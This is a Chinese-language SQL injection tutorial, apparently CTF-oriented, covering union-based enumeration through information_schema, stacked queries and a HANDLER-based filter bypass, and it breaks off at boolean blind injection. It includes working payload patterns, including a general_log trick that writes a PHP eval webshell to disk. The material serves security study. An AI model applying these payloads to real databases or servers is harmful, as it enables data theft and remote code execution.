 ~~只会注入~~

sql注入是web的早期漏洞，常存在于各种早期的查询，到了现代，sql注入已经演化为了各种不同的数据库注入形式。

# 一、数据库介绍：
数据库是存放数据的仓库，是存放数据的仓库，
大多数的数据库为关系型数据库：
结构为：库->表->列->行
而sql语言就是一种用于数据库的语言，用于告诉数据库我需要什么，有什么需要查询。
而作为一门语言，sql注入就是一种很特别的文字游戏，而sql语句最搞笑的是：他放入其中的填充竟然具有代码效力，例如注释真的可以执行，引号括号之类的真的可能造成不闭合的报错;

一些常用的sql语句：
```sql
# 一些SQL注入常用的函数
version()                 # 查看数据库版本
database()                # 查看当前数据库名
user()                    # 查看当前数据库用户
system_user()             # 查看系统用户名
group_concat()            # 把数据库中的某列数据或某几列数据合并为一个字符串
@@datadir                 # 查看数据库路径
@@version_compile_os      # 查看操作系统
```

在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个information_schema的数据库，该数据库中包含了当前系统中所有的数据库、表、列、索引、视图等相关的元数据信息，是MySql自身信息元数据的存储库，我们需要记住三个表名，分别是 schemata，tables，columns。

根据这一个特点，我们可以做一些操作，来盗取一些有意思的内容，比如，我们可以通过,联合查询等方式来直接查出其中的敏感数据。

# 二、注入方式介绍
## 1、联合注入查询
传统派，最最经典的sql注入方式，利用union语句，同时加上注释，将数据库中的敏感信息脱出来。
这里介绍联合注入的手法：
首先，进行测试，检测语句的包裹形态，检查在什么状态下，语句将出现报错，以此查看其中的包裹，可以利用万能密码字典fuzz一下，可以比较详细的知晓其中的过滤点，一些检测后出现的绕过将在后文中提及。
这里注意，注释的形式与提交信息的方式有关系，如果是一GET方式提交，注释将是 --+ ， 而如果以POST方式提交信息，则会以#为注释。
好，我们继续，

我们输入后看看回显在哪里，此时，查询的结果**通常**会显示在你的电脑上，没有的情况，先不要慌，因为还有很多种可能性。

即使完全没有回显，通过一些方式来判断一些内容的，而且，有一些查询是一定有结果的：

这其中的代表是列数判断的函数 order by ：

order by 1啊2啊3啊4啊…………

即使没有回显，这里在超出列数时是会出现报错的，**如果报错**那就需要考虑其他不同的注入手法了。
那么，假设此时我们已经拿到了列数的数量，在良好的情况下，我们会看见回显。
此时，你会知道回显的位置，在这个前提之下，我们开始一套常规注入的组合拳：
爆库，爆表，爆字段，爆数据
```SQL
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```
可以查询到表的名称，此时，进一步查询
```SQL
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
注意，在注入的过程之中，使用GROUP_CONCAT()函数是一个好习惯，因为有很多的查询只会输出一个结果，而不是多个结果，这个函数将大量的结果拼接进入了一个结果之中，以便能够正常的进行输出。如果此函数被过滤，首先考虑绕过，如若无法绕过，那么就使用limit函数将结果限制在一行，然后一行一行的看。
最后，使用相同的方式进行爆内容就可以了。

ok，最基础的联合注入就结束了。

## 2、堆叠注入：
堆叠注入的危害性相较于联合注入更大，如果说联合注入是纯看的话，堆叠注入给予了攻击者直接操作数据库的权利。
在这里先介绍sql相关的全局变量，sql的全局变量是一种特殊的变量。他决定了数据库中的部分有什么样的权限
比如secure_file_priv对读写文件有影响，若目录在这个变量之中，说明数据库对这个路径的文件有操作的权限。还有很多，这里不一一介绍了。
接下来介绍堆叠注入。
有如下的例子：
```SQL
 select phone,e_mail from guests;select username,password from users;
```
可以发现，在样例中，在一行里嵌套了两条语句，也就是说，在实战之中，我们将语句连起来执行了，因此，我们将不止是可以进行查询操作，而是更进一步能实现修改，增加，删除的操作，因而，我们可以使用这一漏洞实现木马的写入。
样例：
```sql
select "<?php phpinfo();?>" into outfile "/tmp/1.php"；
```
但是，通常情况之下secure_file_priv 被设置为NULL，那么是否是无法利用了？
这里，我们引入堆叠注入
堆叠注入的判断方法：
名称处加单引号报错，加双引号不报错，加单引号和分号不报错，说明存在堆叠注入
参考的使用方法：
```
set global general_log=on;#开启日志记录
set global general_log_file='C:/1.php';#设置日志保存路径
select '<?php eval($_POST['a']) ?>';#写入木马
```

简单来说。由于分号座位作为MySQL语句的结束符。如果支持多语句执行的情况下，可利用此方法执行其他的恶意语句。
但是，大多数的时候，因为api或者数据库引擎的不支持无法实现。

select的过滤绕过：MySQL除了可以使用select查询表中的数据，也可以使用handler语句，这条语句可以一行一行的浏览一个表中的数据，但是handler不具备select的所有功能，是mysql的专属语句，并没用包含到sql标准之中

其参考用法为：
```
# 打开一个表名为 tbl_name 的表的句柄
HANDLER tbl_name OPEN [ [AS] alias]

# 1、通过指定索引查看表，可以指定从索引那一行开始，通过 NEXT 继续浏览
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]

# 2、通过索引查看表
# FIRST: 获取第一行（索引最小的一行）
# NEXT: 获取下一行
# PREV: 获取上一行
# LAST: 获取最后一行（索引最大的一行）
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]

# 3、不通过索引查看表
# READ FIRST: 获取句柄的第一行
# READ NEXT: 依次获取其他行（当然也可以在获取句柄后直接使用获取第一行）
# 最后一行执行之后再执行 READ NEXT 会返回一个空的结果
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

# 关闭已打开的句柄
HANDLER tbl_name CLOSE
```
## 3、盲注
绝大多数的题目类型，很多时候题目的查询不会贵你一个确切的结果，只有一些不同的变化，这个时候，就只能等使用盲注的手法来解决问题，盲注的手法分为两种，布尔盲注和时间盲注。
### 布尔盲注
布尔盲注是通过类似回显状态（内容、长度）http响应状态码不同（200、500） http响应头变化（无条件冲顶像、设置cookie）错误代码等布尔状态的变化进行注入。